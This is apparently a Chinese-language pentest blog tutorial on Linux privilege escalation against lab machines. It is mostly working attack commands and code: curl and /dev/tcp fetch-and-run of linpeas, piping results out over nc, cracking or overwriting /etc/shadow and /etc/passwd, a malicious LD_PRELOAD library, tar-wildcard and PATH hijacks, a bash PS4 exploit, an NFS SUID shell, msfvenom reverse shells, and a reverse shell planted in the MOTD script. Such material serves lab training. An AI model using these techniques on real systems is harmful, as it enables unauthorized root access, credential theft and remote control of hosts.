

Linux 提权 (PrivEsca) 1 : 枚举和典型例子
===

提权, 也就是**提升权限**(Privilege Escalation), 最终获得 root 权限。渗透测试中, 提权操作是无法避免的非常重要的过程。

### 常用手段

提权一定是对系统某种保护措施的利用, 逃逸或破坏。

一般来常用到的手段有这些:

-   低权限可修改高权限用户执行的脚本, 这本质上是 UGO 上的问题;
-   低权限运维人员也会输入/存储高权限凭据;
-   超越权限体系, 在其上层 (如内存) 捕获 / 修改凭据等信息和内核利用。

### 升级 shell 交互性

在拿到任何一个用户 (即使是低权限用户) 的 shell 时, 首先应该让其交互性尽可能完整。

1. 利用 python 来提升交互性:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

1. 禁用终端的输入预处理 (可以激活方向键):

```bash
stty raw -echo
```

3. 指定终端类型, 支持颜色输出和全屏程序

```bash
export TERM=xterm-256color
```

### 枚举

枚举（Enumeration） 是渗透测试的关键环节，其核心目标是**系统性收集目标系统的信息**，通过分析这些信息寻找可利用的脆弱点。

#### 手工枚举

尽管枚举已经有很多自动化工具, 手工枚举依然非常重要, 因为自动化工具（如 LinPEAS）易被 HIDS/EDR 检测，手工枚举可通过分段操作**规避告警**。

最常用的枚举命令:

1. 基本信息

```bash
# 当前登录名
whoami 
# 查看给定用户所在组等信息, 留空为当前用户
id [username] 
# 最近登录信息
last

# 直接显示系统版本号
uname -a
# 通过进程信息显示系统信息
cat /proc/version
cat /etc/issue
# 主机名
hostname
hostnamectl

# ip 地址
ip addr
ip a
ifconfig
# 查看路由表信息
ip route
# 查看网络邻居(内网)
ip neigh
# 查看 ARP 缓存(内网横向渗透)
arp -a
```

2. 关键信息

```bash
# 列出当前用户可以用 root 权限执行的文件清单, 这条非常关键, 几乎是所有提权必经的一步
sudo -l
# 列出 capabilities 权限体系下, 根目录所有信息:
getcap -r / 2>/dev/null
# 寻找SUID（Set User ID）位设置为 root 的二进制文件。这些文件在某些情况下可以被攻击者利用来获得更高权限，例如从普通用户提权到 root。
find / -perm -u=s -type f 2>/dev/null
# 查看历史记录
history
```

```bash
# 查看所有用户信息: 
# root:x:0:0: root: /root:/bin/bash
# 名称:密码(x):属组:属组:描述:家目录: bash 环境
# 一般来说没有家目录的用户都是功能账户, 利用价值不会太大;
cat /etc/passwd

# 查看定时任务, 比较典型的例子是在 crontab 的定时任务脚本中尝试是否可以写入反弹 shell 
cat /etc/crontab

# 查看环境变量
echo $PATH
env

# 查看所有进程
ps -ef
# 网络连接状态(端口, 进程)
netstat
```
#### 自动枚举

自动枚举有明显流量特征, 结果冗长, 需要足够熟悉。

常用的软件:
-   **linpeas**     [项目地址](https://github.com/peass-ng/PEASS-ng/releases/tag/20250501-c34edb3c)

-   **linenum**     [项目地址](https://github.com/rebootuser/LinEnum)

-   **linux-smart-enumeration**     [项目地址](https://github.com/diego-treitos/linux-smart-enumeration)

-   **linux-exploit-suggester** [项目地址](https://github.com/The-Z-Labs/linux-exploit-suggester)

以 linpeas 为例:

1. 其最推荐的用法是用 curl 来在线的扫描, 不在本地生成任何文件:

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/download/20250501-c34edb3c/linpeas.sh | sh
```

> `-L` 参数会追踪重定向。

2. 如果不能连接外网, 可以考虑用 python3 建立一个连接, 传到靶机上, 假设 kali 的地址为 `192.168.170.145`:

```bash
# kali 上开启服务器
sudo python3 -m http.server 80

# 靶机上接收:
curl 192.168.170.145/linpeas.sh | sh
```

3. 将扫描结果传回 kali:

```bash
# kali 上开启监听
sudo nc -lvnp 81 | tee linpeas.txt

# 靶机上访问 kali
curl 192.168.170.145/linpeas.sh | sh | nc 192.168.170.145 81
```

> 同时, 这个扫描结果会实时显示, 并且保存为 `linpeas.txt`, 要在之后阅读这个文件, 最好用 `less -r linpeas.txt`;

4. 如果靶机中 `curl` 不可用, 用 `cat` 可以进行绕过:

```bash
# kali 上开启监听, 并传入 linpeas.sh
sudo nc -lvnp 81 < linpeas.sh

# 靶机上从伪设备读取 kali 传过来的 linpeas, 建立完整管道
cat < /dev/tcp/192.168.170.145/81 | sh
```

---

接下来总结几个经典的提权:

---

### 服务漏洞提权

以 **MySQL-UDF(User Defined Function)** 为例: MySQL 允许用户自定义函数, 并在查询中使用, 通过使用 UDF, 用户可以实现**数据库本身不支持的功能**。

> 注: UDF 是 MySQL 的自带功能。

#### 变量 **secure_file_priv**

`secure_file_priv` 是 MySQL 的一个系统变量，用来指定允许执行文件导入/导出 (`LOAD DATA INFILE`、`SELECT … INTO OUTFILE`、`LOAD_FILE()`) 的唯一目录。这种路径限制可以防止任意写文件，避免攻击者通过 `INTO OUTFILE` 将文件写到系统关键目录。

常见的配置:

```ini
[mysqld]
secure_file_priv = /var/lib/mysql-files/
```

`secure_file_priv` 将文件导入/导出函数限制在特定的目录下。如果值为 `NULL` 或 **`''`**, 则完全禁止了相关函数。

总的来说, 持有 MySQL 账户, 以及 `secure_file_priv` 值不为空 是**完成 UDF 提权的必要条件**。

#### 利用 UDF 完成提权

UDF 的利用是比较固定的, 直接用 `searchsploit mysql udf` 搜索并利用即可。

#### 提权原理

MySQL UDF 本质上就是**让数据库进程去加载一段你写的 C/C++ 动态库，然后把其中封装好的系统命令接口当作 SQL 函数来调用**。本质上还是因为 MySQL 可以间接执行系统命令。

### 密码文件权限利用

#### 可读 `shadow` 文件利用提权

`shadow` 是渗透是老朋友了, 该文件存放了用户密码的哈希值, 枚举的时候查看 `shadow` 文件的权限:

```bash
ls -liah /etc/shadow
cat /etc/shadow
```

返回结果应该类似于:

```bash
root:$6$Tb/euwmK$OXA.dwMe0AcopwBL68boTG5z165wIHsc840WAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7::
sys:*:17298:0:99999:7:::

...

user:$6$M1tQjkeb$M1A/ArH4JeyF1zBJPLQ.TZQR1locULz0wIZsoY6aDOZRFrYirKDW5IJy32FBGjwYpT201zrR2xTROV7wRIkF8.:17298:0:99999:7:::

...
```

既然有哈希值, 就可以暴力破解。 用 `grep ':\$'` 可以提取出来。这里的 `user:$6$M1tQjkeb$` (`$id[$rounds=$n]$salt$hash`)中, `$6$` 表示 **SHA-512** 哈希算法, 对应的, 5 表示 SHA-256, `M1tQjkeb` 为**盐值**, 用于确保哈希结果的独特性。

把刚刚提取出来的结果存放在 `hash.txt` 中, 然后使用碰撞工具即可:

```bash
sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash 
```

#### 可写 `shadow` 文件利用提权

首先应该备份 `shadow` 文件:

```bash
cp /etc/shadow /tmp/shadow.bak
```

然后用 `mkpasswd` 这个工具来自定义密码, 并生成符合 `shadow` 文件格式的结果:

```bash
mkpasswd -m sha-512 
```



然后把这个结果写入 `shadow` 即可。简单来说就是通过写入来绕过了后推前的过程。 

#### 可写 `passwd` 文件:

`passwd` 也是老朋友了, 在之前的 Write up 里已经提到过多次: [w1r3s](https://r4x.top/2025/03/24/w1r3s/) 。

首先备份 `passwd` 文件, 然后用 openssl 对要修改的密码做哈希:

```bash
cp /etc/passwd /tmp/passwd.bak
openssl passwd password
```

然后将回显的结果写入 `passwd` 文件中想要登录的账户的 `x` 处替换即可, 例如 root 。此时登录 root 输入 password 就可以完成登录。

另一种方式:

- 写入一个新的用户, 因为没有对应的 Shadow 条目，系统往往将它视作*空密码*，部分服务/登录方式会允许空密码登录，从而直接拿到 Root Shell。

```ruby
evilroot:x:0:0:evil:/root:/bin/bash
```

或者, 找到一个已经能登陆的用户, 篡改用户 UID 为 0。

### `sudo` 环境变量提权:

当 `sudo -l` 的结果同时包含 `env_reset` , `env_keep+=LD_PRELOAD` 时可以考虑。 

>   这条结果分别说明当前用户有权限重置环境变量, 同时会保留一项环境库(LD_PRELOAD), LD_PRELOAD 是一个**动态链接器环境变量**，允许用户指定一个共享库(`.so` 文件)，在程序启动时优先加载该库，覆盖标准库函数。

编写一个恶意的共享库: `evil.c`

```c
#include<stdio.h>
#include<sys/types.h>
#include<stdlib.h>

// 编写一个比 main 先执行的函数
void _init() {
    // 只需要执行一次库即可唤起 shell, 避免子进程递归加载
    unsetenv( "LD_PRELOAD" );
    // 设定到 root
    setgid(0);
    setuid(0);
    // 启动 shell
    system("/bin/bash" );
}
```

编译并启动:

```bash
gcc -shared -fPIC -o /tmp/evil.so evil.c -nostartfile
sudo LD_PRELOAD=/tmp/evil.so find
```

> - `nostartfile` 参数保证 `_init()` 函数能正确加载。

### 自动任务提权

用 `cat etc/crontab` 可以查看定时任务, 留意其中以 root 为例的高权限身份执行的脚本: `crontab` 的结构在这篇 Write up 中有解释: [Jarbus write up](https://r4x.top/2025/04/01/jarbas/)

#### 脚本权限提权

当 root 身份的定时任务脚本可写: 可直接编辑这个脚本发送一个 root 权限的反弹 shell 到攻击机。

#### 自动任务环境变量提权

查看 `crontab` 时, 结果应该形如 `PATH=/home/user:/usr/Local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin` 。这里是以 ':' 为分隔符的多个路径, 系统在检查每个要定时执行的文本时, 如果该文件使用的是**相对路径**(如 `script.sh`), 那么会按照**从前往后**的顺序依次找, 以找到的**第一个文件**为准。

那么, 如果该文件不在第一条环境中, 就可以在顺序在其之前的环境中写入一个同名文件, 以达到覆盖的效果。

#### 自动任务通配符提权

许多服务器会有定时备份的任务, 例如 `tar czf /tmp/backup.tar.gz`, 而 `tar` 这个指令有一个参数为 `checkpoint`:

`--checkpoint-action=ACTION` 会在每个检查点执行给定的指令, 这就为利用提供了入口:

> ACTION 一共有三种用法:
>   -   `echo=STRING`: 打印自定义字符串
>   -   `exec=COMMAND`：运行外部命令
>   -   `script=FILE`：执行脚本文件
>   

```bash
# 在 Kali 中构造一个反弹 shell 的 elf 二进制文件:
sudo msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.170.145 LPORT=4444 -f elf -o shell.elf
# 架设一个 web 服务器
sudo php -S 0:80
# 之后再开启一个监听
sudo nc -lvnp 4444

# 在靶机中访问并下载 Kali 提供的这个反弹 shell 文件:
wget http://192.168.170.145/shell.elf
chmod +xs shell.elf
# 靶机建立checkpoint, 并执行这个 shell 文件:
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```

通配符提权实际上有一点像 sqli , 由于未对文件名做选项屏蔽，touch 操作创建的 `--checkpoint=1` **文件**和-`-checkpoint-action=exec=shell.elf` 实际上在定时任务中当做**参数**被执行了。

### SUID 利用

在刚刚的手动枚举中已经提到:

```bash
find / -perm -u=s -type f 2>/dev/null
```

这是 **SUID 利用的关键步骤**。

#### 可执行文件已知利用提权

假设扫到了 `usr/sbin/exim-4.84-3` 这个文件, 马上就可以着手在 `searchsploit` 中搜索。

#### SUID 共享库利用提权

假设搜到了结果为 `/usr/local/bin/suid-so` 这样的共享库(so), 追踪一下:

```bash
# 查看一下字符串:
strings /usr/local/bin/suid-so

# 假设能看到有 /home/... 这样的路径

# 追踪报错信息
strace /usr/local/bin/suid-so 2>&1 | grep '/home' 

# 假设报错信息为:
# open("/home/user/.config/libcalc.so",0,O_RDONLY) = -1 ENOENT (No such file or directory)
# 那么可以查看一下有没有这个目录
ls -liah .config

# 如果没有, 那就建一个, 既然是我来写, 那库里有什么也是我说了算, 当然可以完成提权。
mkdir .config
cd .config
vim libcalc.c

# 之后写一个最简单的提权脚本然后编译, 脚本可以参考前文 evil.c
# ...
```

#### SUID 环境变量利用提权

假设搜到了结果为 `/usr/local/bin/suid.env` 这样的环境文件:

用 `strings suid.env` 命令来查看其中的字符串, 如果出现了 `service apache2 start` 这种使用**相对路径**而非绝对路径的指令, 则可以进行劫持。

编写一个可以提权的脚本: `service.c`

```c
#include<stdio.h>
#include<stdlib.h>

void main(){
    // 设定到 root
    setgid(0);
    setuid(0);
    // 启动 shell
    system("/bin/bash -p" );
}
```

之后编译, 再添加当前目录到环境:

``` bash
gcc -o service service.c
export PATH=.$PATH
echo $PATH
```

再执行 `service apache2 start` 即可完成提权。

#### SUID shell 功能提权

对 **4.2 版本以下的 bash** , 当用字符串搜索到 env 文件中存在 `/usr/sbin/service apache2 start` 这样的字符串时, 可以用 bash 自定义函数:

```bash
function /usr/sbin/service { /bin/bash -p;}
export -f /usr/sbin/service 
```

导出后, 自定义函数将会更优先执行, 从而拿到 shell 。

---

同理情况下, 当 **bash 版本在 4.4 以下**时, 可以考虑在调试模式下, 对bash 的环境变量进行设置, 并在其中加入 shellcode 。

```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash;chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
/tmp/rootbash -p
```

> `-i`: 忽略当前已有的环境变量选项。
> `SHELLOPTS`: 环境变量选项集, 可以有多个, 用 `:` 分割。
> `PS4`: (Prompt String)提示词, 1, 2, 3, 4 各有不同含义。4.4以下版本的 bash 可以在 PS4 中加入提权内容。

这段代码的含义实际上就是把 bash 文件直接复制到 `/tmp` 下并增加其权限。之后直接启动即可。

### 秘钥和历史文件利用提权

#### history 泄露信息

`history` 指令可以查看历史记录, 这可能会泄露口令等敏感信息, 如:

```bash
history

ls -al
cat .bash_history
ls -al
mysql -h somehost.local -u root -p password123
```

比如这里泄露了 MySQL 口令为 password123 , 那么很有可能 root 密码也是 password123 (从运维人员出发, 多个账号密码碰撞也是很有可能的)。

#### 密码, 秘钥配置文件泄露提权:

获得出示立足点后, 用 `ls -liah` 列出所有隐藏文件, 如果有 `myvpn.ovpn` `auth.txt` 这类敏感配置文件, 或者启动某项服务的配置文件, 可以重点关注。

#### SSH 配置文件泄露提权:

低权限用户也是*有可能*可以使用 ssh 的。ssh 秘钥会在生成时创建 `.ssh` 这个文件夹, 可以重点关注。

进入 `.ssh`, 并 `ls -liah`, 应该能看到 `root_key`, 如果有可读权限, 就可以直接看见 ssh 服务秘钥:(RSA Key)

拷贝到 kali 中:

```bash
vim id_rsa

chmod 600 id_rsa
sudo ssh -i id_rsa -oHostKeyAlgorithm=ssh-rsa,ssh-dss -oPublicAcceptKeyTypes=ssh-rsa,ssh-dss root@192.168.170.136
```

这一过程中不断调整参数即可。

### NFS 文件提权

NFS 是网络文件分享的意思。

靶机中尝试:

```bash
cat /etc/exports

# 可能的输出:
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
```

> `rw`: 任意用户可读写, `sync`: 同步, 所有操作立刻生效, `insecure`: 允许使用非保留端口来连接; `no_root_squash`: 不会将 root 用户命令映射为普通用户命令, **也就是允许用 root 方式连接 NFS**; `no_subtree_check`: 无子检查。

接下来可以着手写 shellcode 了:

```bash
# kali 中
su
mkdir /tmp/nfs
# 版本用 2 或 3, 地址于上方文件目录一致
mount -o rw,vers=3 192.168.170.146:/tmp /tmp/nfs

# 等待连接
# ...

# kali 中另开一个 bash:
su
# 生成一个简单的 shellcode:
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
chmod +xs shell.elf
```

---

```bash
# 靶机中
ls 
# 期望输出: shell.elf, 直接执行
./shell.elf
```

完成提权。

### 内核提权

用 `uname -a` 时发现内核版本较低时适用。

用 `curl -L https://github.com/peass-ng/PEASS-ng/releases/download/20250501-c34edb3c/linpeas.sh | sh` (工具内容见前文) 的方式扫描, 如果靶机没有安装 `curl` , 可以用 `nc` 替代:

(和本文前面提及的完全一致)

```bash
# kali 上开启监听, 并传入 linpeas.sh
sudo nc -lvnp 81 < linpeas.sh

# 靶机上从伪设备读取 kali 传过来的 linpeas, 建立完整管道
cat < /dev/tcp/192.168.170.145/81 | sh
```

用 `searchsploit` 来下载并利用即可。

### MOTD 利用提权

`00-header` 是登录前显示的欢迎信息, 这是 MOTD 的机制, 利用这一点, 可以尝试提权。

前往 `/etc/update-motd.d`, 执行 `cat 00-header`:

```c
//#!/bin/sh
// ....

printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "uname -o" "uname -r" "uname -m"

// 写入 shell
bash -c "bash -i >& /dev/tcp/192.168.170.145/4444 0>&1"
```

在 kali 打开对应监听, 用 ssh 重连即可提权。

### 可预测 PRNG 暴力破解 SSH 提权

PRNG 为**伪随机数生成器**(Pseudo Random Number Generator);

像 RSA 这种非对称加密, 是拿用户(kali)的私钥去连接服务器(服务器)的公钥, 如果说拿到了公钥, 由于非对称加密都是基于数学单项函数(这里不细展开, 以后单独拿出来专门讲), `私钥->公钥` 是可行的, 但 `公钥->私钥` 在直接计算上是不可行的。

执行`searchsploit prng`, 用伪随机数生成器来进行碰撞。

本质上讲, 如果某个版本的 OpenSSL 的 PRNG 存在漏洞（如随机性不足、种子可预测或熵池污染）,就可能导致密码可预测和碰撞攻击。